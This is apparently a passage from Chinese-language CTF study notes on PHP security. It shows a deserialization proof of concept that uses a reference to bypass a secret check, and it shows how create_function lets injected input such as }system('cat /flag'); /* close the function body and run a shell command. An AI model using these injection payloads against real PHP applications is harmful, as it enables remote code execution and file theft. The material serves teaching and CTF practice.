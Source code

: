**构造poc链条：**

```php
<?php
class just4fun {
    var $enter;
    var $secret;
}
$a = new just4fun();
$a ->enter=&$a ->secret;
echo serialize($a);
?>

```

```
payload:O:8:“just4fun”:2:{s:5:“enter”;N;s:6:“secret”;R:2;}
```

# 7.create_function函数

```php
create_function('$a, $b', 'return "ln($a) + ln($b) = " . log($a * $b)');
```

等价于

```php
function lambda_1($a, $b) {
    return "ln($a) + ln($b) = " . log($a * $b);
}
```

所以可以凑一个闭合来进行命令执行

```php
?cmd=}system('cat /flag'); /*
```

等价于

```php
<?php
function lambda_1() {
}system('cat /flag');
/*}
```

